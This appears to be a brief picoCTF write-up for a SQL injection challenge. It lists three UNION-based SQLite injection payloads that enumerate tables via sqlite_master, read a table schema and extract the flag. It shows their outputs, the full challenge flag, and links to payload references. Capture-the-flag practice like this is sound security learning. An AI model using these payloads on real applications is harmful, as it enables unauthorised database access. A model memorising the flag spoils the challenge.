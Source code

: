 
first command that showed more info

' union select 0, 1, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' --

first command output showed
2 more tables,

hints and more_table

second command
' union select null,null,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='more_table'--

second command output

CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)

final command

' union select null,null,flag from more_table--

output

If you are here, you must have seen it

picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}


used this as reference: https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf
https://github.com/payloadbox/sql-injection-payload-list
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md